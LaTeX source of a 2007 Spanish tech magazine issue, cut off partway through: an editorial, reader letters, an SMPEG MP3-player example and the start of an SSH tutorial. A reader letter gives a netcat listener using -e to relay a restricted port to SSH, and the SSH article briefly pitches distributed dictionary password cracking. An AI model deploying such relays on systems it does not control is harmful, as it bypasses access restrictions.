% Revista Occam's Razor N�mero 2
%
% (c) 2007, Occam's Razor.
% Contenido disponible bajo licencia Reconocimiento-No comercial-Compartir bajo la misma licencia 2.5 Espa�a de Creative Commons. Para ver una copia de esta licencia, visite http://creativecommons.org/licenses/by-nc-sa/2.5/es/ o envie una carta a Creative Commons, 559 Nathan Abbott Way, Stanford, California 94305, USA.
% 

\documentclass[10pt,a4paper,twoside]{article}

% Paquetes... probablemente alguno no sea necesario
% 

\usepackage[latin1]{inputenc}                                                   
\usepackage[spanish]{babel}  
\usepackage{graphicx}
\usepackage{a4,fancyhdr, multicol}
\usepackage{float}
\usepackage{pdftricks}
\usepackage{pstricks}
\usepackage{color}
\usepackage{pstcol}
\usepackage{pst-plot}
\usepackage{pst-eps}
\usepackage{wrapfig}
\usepackage{eso-pic}
\usepackage{listings}
\usepackage{textpos}
\usepackage{epsf}

\usepackage[T1]{fontenc} 
\usepackage{lmodern} 

% Configuraci�n de tama�o de p�gina
\setlength{\parindent}{0in}
\setlength{\oddsidemargin}{0.05mm}
\setlength{\evensidemargin}{0.05mm}

\addtolength{\textwidth}{4cm}
\addtolength{\topmargin}{-3.5cm}
\addtolength{\textheight}{4.5cm}
\pagestyle{fancy}

% Configuraci�n de Cabeceras Fancy Header
\fancyhead{}
\fancyfoot{} % clear all footer fields 
\fancyfoot[LE]{\textbf{\textsf{OCCAM's Razor | \thepage}}}
\fancyfoot[RO]{\textbf{\textsf{\thepage | OCCAM's Razor}}}
\renewcommand{\footrulewidth}{0.4pt}

% Elimina l�neas de cabecera
%
\renewcommand{\headrulewidth}{0pt} 


% Colores
\definecolor{introcolor}{rgb}{0.8,1.0,0.8}
\definecolor{titlecolor}{rgb}{0.4,0.5,0.1}
\definecolor{excolor}{rgb}{0.8,0.8,0.8}

% ********************************************************
% Definici�n de Comandos y Entornos
% ********************************************************

% Comandos de uso general
% ---------------------------------------------------------
% Secciones t�tulos y subt�tulos de cada p�gina
\newcommand{\msection}[4]{
{\begin{flushright}{
{\psset{linecolor=black,linestyle=dotted}\psline(-17,0)}
\colorbox{#1}{
\begin{minipage}{#3\linewidth}
\center
  \textcolor{#2}{
    \textsf{\textbf{#4}}}
\end{minipage}
}}\end{flushright}}

\vspace{4mm}
}

\newcommand{\mtitle}[2]{
  {\resizebox{#1}{0.7cm}{\textbf{\textsf{#2}}}}
  \vspace{1mm}
}

\newcommand{\msubtitle}[2]{
  {\resizebox{#1}{0.5cm}{{\gray{\textbf{\textsf{#2}}}}}}
  \vspace{1mm}
}

% Principio de P�gina. Pone el cuadro superior con la secci�n
\newcommand{\bOpage}[3]{
  \msection{#1}{black}{#2}{#3}
  \begin{multicols}{2}
}

% Fin de p�gina. Termina el entorno multicols
\newcommand{\eOpage}{
\pagebreak
\end{multicols}
}

% Fin e Inicio de P�gina. Sino utilizamos figuras fuera de las
% columnas del cuerpo principal, esta es la forma adecuada de marcar
% cada p�gina
\newcommand{\ebOpage}[3]{
\eOpage
\bOpage{#1}{#2}{#3}
}

% Crea el cuadro de introducci�n al principio de cada art�culo
\newcommand{\intro}[3]{
\colorbox{#1}{
  \begin{minipage}{.9\linewidth}
    \vspace{2mm}
    {{\resizebox{!}{1.0cm}{#2}}{#3}}
  \vspace{1mm}
  \end{minipage}
}
\vspace{4mm}
}


% Comando para introducir figura en entorno multicol
\newcommand{\myfig}[3]{
\begin{center}
  \includegraphics[width=#3\hsize,angle=#1]{#2}
  \nobreak
\end{center}}

% Caption para figuras en entorno multicol
\setcounter{figure}{1}
\newcommand{\mycaption}[1]{
  \begin{quote}
    {\small
    {{\sc Figura} \arabic{figure}: #1}
    }
  \end{quote}
  \stepcounter{figure}
}

% Caption para figuras en entorno multicol sin contador
\newcommand{\nncaption}[1]{
  %\begin{quote}
    {\footnotesize{\textbf{
    {#1}
    }}}
  %\end{quote}
}

% Comando para introducir secciones en los art�culos
\newcommand{\sectiontext}[3]{\vspace{4mm}{{\textcolor{titlecolor}{\large{\textbf{\textsf{#3}}}}}}
\vspace{2mm}
}


% Entornos (begin... end)
% ----------------------------------------------------
% Entorno para introducir ejemplos
\newenvironment{mexample}{
  \vspace{2mm}
  \bgroup
  \tiny
}{
  \egroup
  \vspace{4mm}
}

% Entorno para introducir entradillas en el texto
\newenvironment{entradilla}{
  \bigskip
  \hrule 
  \bigskip
  \bgroup
  \LARGE
}{
  \egroup
  \bigskip
  \hrule
  \vspace{5mm}
}


% **************************************************************************
% Comienza el documento
\begin{document}

% Portada, no utiliza Fancy Header e introduce imagen de portada con PStricks
\pagestyle{empty}

\rput(8,-14){\epsfbox{images/portada-n2.eps}}

\clearpage
\pagebreak

% Imagen con el sumario en la siguiente p�gina
\rput(8,-14.0){\resizebox{!}{30cm}{{\epsfbox{images/sumario-n2.eps}}}}


\pagebreak

% Activa Fancy Headers stilo e incluye los distintos art�culos
\pagestyle{fancy}

\definecolor{introcolor}{rgb}{0.6,0.7,0.3}

% Este fichero es parte del N�mero 2 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 2
%
% (c) 2007, 2009, Occam's Razor.
%
% Esta obra est� bajo una licencia Reconocimiento 3.0 Espa�a de
% Creative Commons. Para ver una copia de esta licencia, visite
% http://creativecommons.org/licenses/by/3.0/es/ o envie una carta a
% Creative Commons, 171 Second Street, Suite 300, San Francisco,
% California 94105, USA. 

\rput(8,-1.5){\resizebox{!}{5cm}{{\epsfbox{images/pluma.eps}}}}
\rput(0.0,-13){\resizebox{7cm}{35.0cm}{{\epsfbox{images/bar.eps}}}}
\rput(0.4,-4.3){\resizebox{!}{4.8cm}{{\epsfbox{images/portada-n2-thumb.eps}}}}
\rput(0.7,-26){\resizebox{!}{0.9cm}{{\epsfbox{images/licencia.eps}}}}
\rput(0.0,-14.9){\resizebox{7cm}{!}{{\epsfbox{images/bar-lir.eps}}}}

\begin{textblock}{9.2}(3,0)
\begin{flushright}
{\resizebox{!}{1cm}{\textsc{Editorial}}}

\vspace{2mm}

{\LARGE El n�mero 2... al fin}

by The Occam Team
\end{flushright}
\end{textblock}




\vspace{4mm}

\definecolor{barcolor}{rgb}{0.9,0.9,0.9}

\begin{textblock}{30}(-1.5, -1)

\begin{minipage}{0.12\linewidth}
\sf\color{barcolor}
\begin{center}

\vspace{1cm}

\colorbox{black}{
{\resizebox{3cm}{0.7cm}{\textcolor{white}{\bf\sf\large Occam's}}}
}

{\resizebox{2.5cm}{0.4cm}{\bf\sf\large Razor}}

\vspace{4mm}

{\bf N�mero 2, A�o 2007}

\vspace{5cm}

\hrule

\vspace{4mm}

{\bf Direcci�n: }

\vspace{1mm}

David Mart�nez Oliveira

\vspace{2mm}

{\bf Editores:}

\vspace{1mm}

David Mart�nez Oliveira

Fernando Mart�n Rodr�guez

\vspace{4mm}

{\bf Colaboradores:}

\vspace{1mm}

Fernando Mart�n Rodr�guez, Pablo Palaz�n, Julio I. Sorribes, Gavin Mathews,
Laura Rodr�guez Gonz�lez, Manuel D. Lago, Miguel Pareja, 
Er Aplastao, Ssh el Silencioso, Mr Anderson, Er Tuneao, Er del Aberno 

\vspace{2mm}

{\bf Maquetaci�n y Grafismo}

\vspace{1mm}

\vspace{7mm}

\vspace{2mm}

\hrule

\vspace{4mm}

{\bf Publicidad}

\vspace{1mm}

Occam's Razor Direct

{\tt occams-razor@uvigo.es}

\vspace{2mm}

\hrule

\vspace{4mm}

{\bf Impresi�n}

Por ahora tu mismo\ldots Si te apetece

\vspace{2mm}

\hrule

\vspace{2mm}


\copyright  2007, 2009 The Occam's Razor Team

Esta obra est� bajo una licencia Reconocimiento 3.0 Espa�a de Creative
Commons. Para ver una copia de esta licencia, visite
http://creativecommons.org/\\licenses/by/3.0/es/ o envie una carta a
Creative Commons, 171 Second Street, Suite 300, San Francisco,
California 94105, USA.

\end{center}
\end{minipage}

\end{textblock}



\begin{textblock}{20}(3,1.5)

\begin{minipage}{.45\linewidth}
\colorbox{introcolor}{
\begin{minipage}{1\linewidth}

{{\resizebox{!}{1.5cm}{P}}{ues eso. Al fin, aqu� ten�is el n�mero 2 de {\em Occam's
Razor}. Ha sido largo y duro (s�, ya sabemos lo que algunas mentes
calenturientas est�n pensando), pero esperamos que este segundo n�mero
sea tan bien recibido como su predecesor.
}
}

\end{minipage}
}

\vspace{6mm}

Como comprobar�is enseguida, nuestros esfuerzos para tratar el uso de
la tecnolog�a en otros �mbitos distintos a la ingenier�a o la
inform�tica, todav�a no han dado sus frutos. Pero no perdemos la
esperanza. Una vez m�s animamos a todos aquellos que utilicen
cualquier tecnolog�a en otros �mbitos a que nos cuenten como lo hacen
y nos desvelen el interesante mundo en el que trabajan.

\medskip

Por otra parte, os encontrar�is con una revista un poco m�s extensa
(unas diez p�ginas m�s que el n�mero 1). Muchos nos comentabais que el primer n�mero
se os hizo corto... lo que,  para nosotros, es una  muy buena
noticia. Hemos intentado mantener un cierto equilibrio en la
profundidad de los art�culos para que ``Occam's Razor'' siga siendo
accesible a un amplio {\em espectro} de lectores.

\medskip

En este segundo n�mero, hemos continuado las series de art�culos
iniciadas en el primer n�mero y hemos a�adido algunos art�culos
m�s. Entre estos �ltimos podemos destacar la introducci�n a la {\em
Dactiloscopia Digital} que nos ofrece el siempre ameno Fernando Mart�n, as� como la
colaboraci�n de Pablo Palaz�n y Julio I. Soribes que nos cuentan como
conectarnos a redes Windows desde sistemas GNU/Linux. 

\medskip

Tambi�n podr�is encontrar un art�culo sobre ``Como se hizo la
revista'', tema por el que muchos os hab�is interesado y un resumen
del FLOSSIC, en el que hemos colaborado como medio de comunicaci�n
asociado. Adem�s, nos hemos arriesgado con un estilo {\em peculiar} en el
art�culo {\em ``Las Cr�nicas de Matrix: Inventando al Agente
Smith''}. Esperamos que os resulte interesante, y como siempre
vuestros comentarios son el mejor indicador para hacer que esta
humilde publicaci�n evolucione y se convierta en un proyecto
interesante y sobre todo �til.

\medskip

Nos gustar�a hacer una merecida menci�n a la colaboraci�n de Miguel Pareja
por toda su labor de gesti�n del ISSN de la revista, que estrenamos
con este n�mero y que esperamos aumente las colaboraciones externas,
para permitir que, con el tiempo, se convierta en una revista
trimestral :).

\medskip

Finalmente, no podemos m�s que daros las gracias a todos por la buena
acogida del primer n�mero tanto aqu� en Espa�a como en
Latinoam�rica. Seguiremos trabajando duro para mantener este proyecto
vivo.

\bigskip

Esperamos que os guste este segundo n�mero y nos leemos en el pr�ximo.

\bigskip

\begin{flushright}
{\Large\sc{The Occam's Razor \\Team}}
\end{flushright}

%\vspace{4cm}

\end{minipage}

\bigskip

%\begin{minipage}{.45\linewidth}
\colorbox{introcolor}{
\begin{minipage}{.45\linewidth}

\bigskip

{\footnotesize\sf{\color{white}
La imagen de la {\em pluma} utilizada en la editorial ha sido
amablemente cedida por Txemi Jendrix (http://www.txemijendrix.com/)

Las opiniones expresadas en los art�culos, as� como los contenidos de
los mismos, son responsabilidad de los autores de �stos.

Puede obtener la versi�n electr�nica de esta publicaci�n, as� como el
{\em c�digo fuente} de la misma y los distintos ficheros de datos
asociados a cada art�culo en el sitio web:

{\tt http://webs.uvigo.es/occams-razor}

}}

\bigskip

\end{minipage}
}


\end{textblock}

\pagebreak


% Este fichero es parte del N�mero 2 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 2
%
% (c) 2007, Occam's Razor. Contenido disponible bajo licencia 
% Reconocimiento-No comercial-Compartir bajo la misma licencia 2.5 Espa�a 
% de Creative Commons. 
%
% Para ver una copia de esta licencia, visite 
% http://creativecommons.org/licenses/by-nc-sa/2.5/es/ o envie una
% carta a Creative Commons, 559 Nathan Abbott Way, Stanford, California 94305, USA.
% 

% Seccion Ratas de Biblioteca
%
% Incluye imagen del art�culo


\rput(2,-2.5){\resizebox{!}{4.0cm}{{\epsfbox{images/lectores.eps}}}}

% -------------------------------------------------
% Cabecera
\begin{flushright}
\msection{introcolor}{black}{0.35}{RINC�N DE LOS LECTORES}

\mtitle{7cm}{El Rinc�n de los lectores}

\msubtitle{10cm}{Vuestros comentarios, sugerencias,...}

{\sf por The Occam's Razor Team}

{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}
\end{flushright}

\vspace{2mm}
% -------------------------------------------------

\begin{multicols}{2}


\sectiontext{white}{black}{NETCAT}

{\bf enviado por Vilius}
\vspace{2mm}
\hrule
\vspace{2mm}

\medskip

{\em Al leer el art�culo del netcat, record� un problema que resolv� una vez con
netcat y que tiene mucho que ver con la soluci�n dada en ``Como en las
pelis''.

Aqu�, propon�is la creaci�n de un puente, que en realidad es unidireccional.

Supongamos el caso que tenemos una m�quina, a la que s�lo se puede acceder a
trav�s del puerto 8000, y que tiene un ssh instalado en el puerto 22, y que
no tenemos privilegios para cambiarlo. �C�mo podemos con el netcat conseguir
acceder? La soluci�n pasa por crear un puente bidireccional:

Mi propuesta para la creaci�n de un puente bidireccional es la siguiente:

\begin{itemize}
\item Creamos el fichero puente.sh

\begin{verbatim}
#!/bin/bash
nc localhost 22 -q 1
\end{verbatim}


\item En l�nea de comandos ejecutamos:

\begin{verbatim}
nc -l -p 8000 -e ./puente.sh
\end{verbatim}

\end{itemize}

Con esto conseguimos que cuando conectemos al puerto 8000, se redirija lo
que llegue al puerto 22 y a su vez, lo que se responda desde el puerto 22,
llegue a quien hizo la petici�n.

Podemos hacer ahora ssh localhost -p 8000 y podemos conectar al ssh.

Volviendo a la secci�n como en la pelis, ahora podriamos ejecutar esto en
varias m�quinas, conect�ndolas entre s�, y ya tendr�amos una conexi�n
bidireccional de princpio a fin, dando saltos a trav�s de nodos intermedios.
}

--

Estupendo Vilius. Una aplicaci�n muy interesante que enlaza con la
mala bestia de este n�mero: ``ssh''.


\vspace{4mm}

\sectiontext{white}{black}{OPCI�N PERDIDA}

{\bf enviado por SLaYeR}
\vspace{2mm}
\hrule
\vspace{2mm}

SLaYeR ma nos apunta muy acertadamente

\medskip

{\em
En el articulo de netcat, donde hac�is referencia a la posibilidad de
ejecutar un programa con la opci�n -c, seg�n mi netcat os equivoc�is, la
opci�n es -e.
Comprobad que no sea una errata.
}

--

SLaYeR, como bien dices, las �ltimas versiones de netcat ya no
incorporan esta opci�n, si bien sigue estando disponible en las
versiones del programa incluidas en varias distribuciones.

Para todos aquellos que quer�is saber como implementar la famosa
opci�n -c, no os pod�is perder el art�culo de la secci�n ``M� R�pido''
de este mismo n�mero.


\sectiontext{white}{black}{CON UN PAR DE L�NEAS}

{\bf enviado por Jes�s Aneiros}
\vspace{2mm}
\hrule
\vspace{2mm}

{\em Leo en la secci�n del asunto el siguiente ejemplo el cual gasta un
proceso por gusto y es merecedora del premio UUOC:

http://partmaps.org/era/unix/award.html

\begin{verbatim}
cat mi_fichero | awk -e '{print \$1,\$2}'
\end{verbatim}

Como se ve el cat sobra si se pone el fichero como argumento de awk.

Pero es que el awk tiene un error porque hay que imprimir el valor de la
columna 3 no el de la 2. Tampoco es correcto escapar los \$ pues ya
usaron apostrofes y finalmente la opci�n -e no hace falta.

Por otro lado el ejemplo de Perl como one-liner deja mucho que desear
pues se pudo escribir m�s corto usando las opciones del lenguaje:

\begin{verbatim}
perl -ane 'print "$F[0] $F[2]\n"' mi_fichero
\end{verbatim}
}

--

Estupendo Jes�s. La errata de awk ya la incluimos en la web, pero la
reproducimos aqu� pos si alg�n lector no la pudo ver.

\vspace{4mm}

\sectiontext{white}{black}{VUESTRO APOYO}
\vspace{2mm}
\hrule
\vspace{2mm}


Desde aqu� queremos agradeceros a todos, los mensajes de felicitaci�n
y �nimo que nos hab�is enviado a lo largo de estos meses. Esperamos
que este n�mero os guste tanto como el primero.


\vspace{6mm}

\colorbox{excolor}{
\begin{minipage}{.9\linewidth}
{\bf\sf\Large ENVIADNOS...}
\vspace{1mm}
\hrule
\bigskip

Vuestros comentarios, sugerencias, ideas, cr�ticas (constructivas
claro), correcciones, soluciones, disoluciones o cualquier cosa que se
os ocurra... a:

\bigskip

{\tt occams-razor@uvigo.es}

\bigskip

{\sf{\textbf LOS ESPERAMOS!!!!}}

\bigskip

\end{minipage}
}





\raggedcolumns
\pagebreak

\end{multicols}

\pagebreak

% Este fichero es parte del N�mero 2 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 2
%
% (c) 2007, Occam's Razor. Contenido disponible bajo licencia 
% Reconocimiento-No comercial-Compartir bajo la misma licencia 2.5 Espa�a 
% de Creative Commons. 
%
% Para ver una copia de esta licencia, visite 
% http://creativecommons.org/licenses/by-nc-sa/2.5/es/ o envie una
% carta a Creative Commons, 559 Nathan Abbott Way, Stanford, California 94305, USA.
% 

% Seccion Ratas de Biblioteca
%
% Incluye imagen del art�culo


\rput(1,-2.3){\resizebox{!}{5cm}{{\epsfbox{images/headphones3d.onda.eps}}}}

% -------------------------------------------------
% Cabecera
\begin{flushright}
\msection{introcolor}{black}{0.25}{RATAS DE BIBLIOTECA}

\mtitle{7cm}{Pon un poco de m�sica en tu vida}

\msubtitle{11cm}{Como reproducir ficheros MPEG en unas pocas l�neas}

{\sf por Er aplastao}

{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}
\end{flushright}

\vspace{2mm}
% -------------------------------------------------

\begin{multicols}{2}


% Introducci�n
\colorbox{introcolor}{
\begin{minipage}{.9\linewidth}
{{\resizebox{!}{1.0cm}{H}}{ace algunos a�os existi� una empresa llamada Loki que desarrollaba
versiones de juegos para Linux. La empresa finalmente desapareci�, pero nos
dej� algunas de las librer�as que utilizaron en estos ports. Una de
ellas, llamada SMPEG, nos permite reproducir ficheros MPG de forma muy
sencilla. 
}}

\end{minipage}
}

\vspace{2mm}

% Cuerpo del art�culo

Aunque es mucho m�s divertido programar tu propio decodificador de
MPEG, muchas veces no se dispone de tiempo o de
ganas. Afortunadamente, siempre hay alguien que ha echo el trabajo
anteriormente. Si no, date prisa y quiz�s te hagas rico :).


En esta ocasi�n vamos a utilizar la librer�a SMPEG desarrollada por
la compa��a Loki, para escribir un rudimentario reproductor de MP3 en
unas pocas l�neas.



\sectiontext{white}{black}{AL GRANO}

Como solemos hacer en esta secci�n no le vamos a dar vueltas al
tema. Aqu� ten�is el c�digo del reproductor.

\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\small}   
\begin{lstlisting}
#include <stdio.h>
#include <SDL.h>
#include <smpeg/smpeg.h>

int
main (int argc, char *argv[])
{
 SMPEG   *mpeg;
 SMPEG_Info info;

 mpeg = SMPEG_new (argv[1], &info, 1);
 SMPEG_enableaudio (mpeg, 1);
 SMPEG_setvolume (mpeg, 90);
 SMPEG_play (mpeg);
 while 
   (SMPEG_status(mpeg) == SMPEG_PLAYING) 
   {
    SMPEG_getinfo (mpeg, &info);
    printf ("Time %lf/%lf\n", 
             info.current_time, 
             info.total_time);
    SDL_Delay (10);
   }
 SMPEG_delete (mpeg);
}

\end{lstlisting}

Sencillo no?... Abrir, configurar, tocar y esperar :).  Bueno, el
programa toma su primer argumento de la l�nea de comandos y lo utiliza 
para crear un objeto SMPEG que ser� el encargado de la
reproducci�n. Luego, simplemente ponemos el volumen y le decimos que
empiece a tocar.

A continuaci�n nos quedamos esperando en un bucle que terminar� cuando
la librer�a haya reproducido el fichero completo. La funci�n
SMPEG\_status retornar� SMPEG\_STOP.

A modo de ejemplo, hacemos una llamada a la funci�n SMPEG\_getinfo,
dentro del bucle, para mostrar en pantalla un mensaje de progreso en
la reproducci�n, que actualizamos cada 10 milisegundos. El retardo
dentro del bucle es importante para que la carga del sistema no sea de
1.


\sectiontext{white}{black}{SDL}

La librer�a SMPEG se dise�� para ser usada junto a otra librer�a que
se suele utilizar para el desarrollo de juegos: SDL (Simple
Directmedia Layer). De hecho, ``SMPEG significa SDL MPEG Player Library''

En nuestro ejemplo, estamos utilizando (aunque no lo parezca) esta
librer�a para la reproducci�n del sonido. El tercer par�metro ('1') en la
llamada SMPEG\_new es el encargado de ello. Por esta raz�n, para que el
programa funcione, es necesario linkarlo con esta librer�a. Esto se
consigue con el siguiente comando:

{\small
\begin{verbatim}
occam@razor $ gcc -o smpeg-test smpeg-test.c \
`sdl-config --cflags` \
-lsmpeg `sdl-config --libs`
\end{verbatim}
}%$


Del resto ya se encarga SMPEG :). 



\sectiontext{white}{black}{VIDEO}

Finalmente, comentaros que SMPEG es capaz de decodificar videos en
formato MPEG-1. No vamos a incluir un ejemplo de como se har�a. Eso lo
dejamos para que os entretengais un poquillo y jugueis tanto con SDL
como con SMPEG.

\begin{entradilla}
{\em ``SMPEG fu� dise�ada \color{introcolor}{para trabajar con SDL}''}
\end{entradilla}

Pero no nos vamos a ir sin incluir algunas pistas. En primer lugar,
ten�is que encontrar la forma de crear una aplicaci�n SDL con su
ventana. En el sitio oficial de SDL hay un buen tutorial para empezar.

Una vez que teng�is vuestra flamante ventana en pantalla, es el
momento de ojear smpeg.h. Ver�is que SMPEG os proporciona funciones
para trabajar directamente sobre estructuras SDL\_Surface, con las que
podr�is pintar directamente sobre la ventana. Tambi�n pod�is utilizar
OpenGL, pero ya no es tan directo.

Hasta el proximo n�mero.

\raggedcolumns
\pagebreak

\end{multicols}

\pagebreak

% Este fichero es parte del N�mero 2 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 2
%
% (c) 2007, Occam's Razor
% Contenido disponible bajo licencia 
% Reconocimiento-No comercial-Compartir bajo la misma licencia 2.5 Espa�a 
% de Creative Commons. 
%
% Para ver una copia de esta licencia, visite 
% http://creativecommons.org/licenses/by-nc-sa/2.5/es/ o envie una
% carta a Creative Commons, 559 Nathan Abbott Way, Stanford, California 94305, USA.
% 

% Seccion Mala Bestia
%
% Incluye imagen del art�culo


\rput(1,-1.8){\resizebox{!}{7cm}{{\epsfbox{images/rj45.eps}}}}

% -------------------------------------------------
% Cabecera
\begin{flushright}
\msection{introcolor}{black}{0.25}{MALA BESTIA}

\mtitle{7cm}{Conexiones seguras con SSH}

\msubtitle{6cm}{... m�s all� de netcat}

{\sf por Ssh el Silencioso }



{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}
\end{flushright}

\vspace{2mm}
% -------------------------------------------------

\begin{multicols}{2}

\intro{introcolor}{Y}{a hemos visto como hacer muchas cosas a trav�s de la red utilizando
Netcat. Sin embargo, aunque como vimos, netcat tiene muchas ventajas,
tambi�n tiene algunos inconvenientes, como por ejemplo, que los datos
viajan por la red como texto plano. En una peque�a red local casera
esto no es un gran problema, pero si nuestros datos van a viajar por
internet o a trav�s de una red wifi, hay muchos ojos acechando.
}

Para estos casos es mejor utilizar ssh (Secure SHell). Como veremos en
breve, podremos hacer todo lo que hac�amos con nuestro querido Netcat
con la ventaja de que los datos viajar�n por la red cifrados. Como
contrapartida, el uso de ssh no es tan sencillo y ssh no es tan
peque�o :).

A continuaci�n exploraremos los usos comunes de esta ``mala bestia'', y
aquellos menos conocidos.

\sectiontext{white}{black}{ACCESO REMOTO}

El uso m�s com�n de SSH, como su propio nombre indica, es permitir un
acceso shell seguro. Desde este punto de vista lo podemos considerar
un sustituto, m�s que recomendable, de telnet o rlogin.

Este uso no tiene ning�n secreto, simplemente indicamos a nuestro
cliente de ssh el nombre de usuario en la m�quina a la que nos
queremos conectar, seguido de una arroba y el nombre de esa
m�quina. Algo tal que as�:

\begin{mexample}
{\small
\begin{verbatim}
occam@razor$ ssh usuario@maquina_remota
Password:
usuario@maquina_remota$ 
\end{verbatim}
}
\end{mexample}

Simplemente comentaros que si no se proporciona nombre de usuario, ssh
intentar� conectarse con el nombre del usuario local, el cual debe
existir en la m�quina remota.

\begin{entradilla}
{\em La principal aplicaci�n de ssh es el {\color{introcolor}{acceso shell seguro}}}
\end{entradilla}


Hasta aqu� nada del otro mundo, pero que os parece si os decimos que
adem�s pod�is ejecutar comandos de forma remota?. Esto es tan f�cil
como a�adir lo que se desea ejecutar a continuaci�n del comando
anterior.

Por ejemplo, supongamos que tenemos una m�quina en nuestra red
conectada a nuestro equipo de m�sica con un mont�n de ``emepetreses'' en
el directorio ``/home/mp3''.

Desde cualquier otra m�quina de nuestra red, y sin levantarnos de
nuestra c�moda silla, podemos ejecutar:

\begin{mexample}
{\small
\begin{verbatim}
occam@razor$ ssh usuario@jukebox 'mpg123 \
> /home/mp3/*mp3'
Password:
occam@razor$
\end{verbatim}
}
\end{mexample}

Evidentemente, el programa mpg123 debe estar instalado en la m�quina
remota.

\sectiontext{white}{black}{ROMPIENDO CLAVES}

En nuestros ejemplos anteriores, hemos ejecutado nuestros comandos en
la m�quina remota, pero, ssh redirecciona la entrada y salida est�ndar,
lo que nos permite manipular la salida del comando en nuestra m�quina
local, o pasarle datos a la aplicaci�n remota.

Supongamos que vamos a utilizar varias m�quinas en una red para romper
alguna clave con un m�todo de fuerza bruta apoyado en diccionarios. En este caso,
tomar�amos nuestro diccionario y lo partir�amos en tantas partes como
m�quinas queremos ejecutar. Con cada una de estas partes,
ejecutar�amos nuestro ''password cracker'' en las m�quinas disponibles.

Para no liar esto mucho, y para que teng�is alguna cosa que hacer, en
lugar de un rompedor de claves vamos a ejecutar un comando absurdo que
simplemente busca una cadena en el fichero que le pasamos. 

\begin{mexample}
{\small
\begin{verbatim}
occam@razor$ ssh maquina_potente \
> "grep -i pepito" < lista_de_nombres.txt
Password:
Pepito Grillo
Pepito de los Palotes
occams@razor$
\end{verbatim}
}
\end{mexample}

Bueno, lo del rompedor de claves fue solo para llamar la atenci�n. En
general, pod�is utilizar esta funcionalidad de ssh para ejecutar
cualquier tipo de c�lculo intensivo que se preste a ser dividido en partes
de una forma sencilla.

\end{multicols}


\clearpage
\pagebreak

\bOpage{introcolor}{0.25}{MALA BESTIA}

\sectiontext{white}{black}{EJECUTANDO APLICACIONES INTERACTIVAS}

La forma de ejecutar comandos remotamente, que hemos visto hasta ahora,
solamente funciona con programas que no necesitan ni un terminal ni un
sistema gr�fico. Pero no est� todo perdido, ssh nos proporciona una
enorme cantidad de opciones. 



Veamos como ejecutar un programa que
necesita un terminal... como por ejemplo vim

\begin{mexample}
{\small
\begin{verbatim}
occam@razor$ ssh -t remoto "vim /tmp/kk"
Password:
.. Nuestra sesion vim ...
occam@razor$ ssh remoto "cat /tmp/kk"
... veremos lo que hayamos escrito
\end{verbatim}
}
\end{mexample}

Interesante no?... pero todav�a podemos hacerlo mejor. ssh nos permite
ejecutar aplicaciones gr�ficas remotamente. Bueno, esto siempre se ha
podido hacer con el sistema X-Window, sin embargo, utilizando ssh,
todo el tr�fico de red que genera el protocolo X-Window estar� cifrado
:).

Para hacer esto utilizaremos la opci�n -X de la misma forma que
utilizamos la opci�n -t en nuestro ejemplo anterior. Sin embargo, en
este caso, tenemos que modificar los ficheros de configuraci�n de ssh
para permitirle establecer los t�neles apropiados. M�s adelante
hablaremos de los t�neles, pero ahora centr�monos en las Xs.

El primer requisito para poder hacer esto es que el sistema remoto
disponga de la aplicaci�n xauth y esta sea accesible. Esta aplicaci�n
se necesita para configurar el sistema de autenticaci�n MIT-MAGIC-COOKIE-1. Alg�n
d�a hablaremos del engorroso mundo de X-Window. Por ahora, simplemente
que sep�is que esta es una de las formas que utiliza este sistema de
ventanas para autenticar los clientes que desean conectarse a un
servidor X.

\begin{entradilla}
{\em A trav�s de una conexi�n SSH podemos {\color{introcolor}{ejecutar aplicaciones interactivas}} tanto en modo texto como en modo gr�fico}
\end{entradilla}

En nuestra m�quina local, adem�s tendremos que modificar el fichero
\verb!${HOME}/.ssh/config! o el \verb!/etc/ssh/ssh_config!. A�adiendo las siguientes
entradas:

%$
\begin{mexample}
{\small
\begin{verbatim}
Host lamaquinaX
ForwardX11 yes
\end{verbatim}
}
\end{mexample}


Por otra parte, el servidor ssh remoto debe tener activado el
``Forwarding'' de las X. Esto es, en el fichero \verb!/etc/ssh/sshd_config!,
debemos tener una entrada como esta (por defecto est� puesta a no por
cuestiones de seguridad).

\begin{mexample}
{\small
\begin{verbatim}
X11Forwarding yes
\end{verbatim}
}
\end{mexample}


Ahora ya podemos ejecutar nuestra aplicaci�n preferida en la m�quina
remota:

\begin{mexample}
{\small
\begin{verbatim}
occam@razor$ ssh -X lamaquinaX xbill
Password:
\end{verbatim}
}
%$
\end{mexample}

No conoc�is xbill?... a que esper�is para probarlo? :)

\sectiontext{white}{black}{BACKAPEANDO}

El paquete ssh incluye algunas aplicaciones adicionales que resultan
de gran inter�s. Una de ellas es scp, que como os pod�is imaginar
recibe su nombre del acr�nimo ``Secure CoPy''. Pues eso. 

Su sintaxis es la siguiente:

\begin{mexample}
{\small
\begin{verbatim}
scp [-r] fichero_origen fichero_destino

fichero : usuario@maquina:path
\end{verbatim}
}
\end{mexample}


Es decir, tenemos un par�metro opcional, -r, que le indicar� a scp que
debe copiar recursivamente los ficheros que se indican, esto es,
descender por los directorio si es necesario. Realmente tiene unas
cuantas opciones m�s, pero esta es la que utilizareis
continuamente. Para conocer las otras ten�is la p�gina del manual.

Respecto a los ficheros de origen y destino, la �nica condici�n es que
uno tiene que ser local y el otro tiene que ser remoto. Es decir, no
es posible hacer una copia de un fichero en una m�quina remota a otra
m�quina remota.

Veamos como a�adir nuevos mp3s a nuestra m�quina 'jukebox':

\begin{mexample}
{\small
\begin{verbatim}
occam@razor$ scp -r mis_mp3/* jukebox:/home/mp3
Password:
... progreso de la copia
occam@razor$
\end{verbatim}
}
\end{mexample}

O como copiar un �lbum determinado a nuestro reproductor mp3 port�til:

\begin{mexample}
{\small
\begin{verbatim}
occam@razor$ scp -r jukebox:/home/mp3/Musica_QTC/*\
> /media/usb0/.
Password:
... progreso de la copia
occam@razor$
\end{verbatim}
}
\end{mexample}


Sencillo no?



\sectiontext{white}{black}{CAMBIANDO DE ORDENADOR. OTRA VEZ}

S�, las cosas nos van bien y hemos vuelto a cambiar de ordenador. 


\ebOpage{introcolor}{0.25}{MALA BESTIA}

Pero
ahora, adem�s, tenemos una tremenda red wifi que hace que nuestros
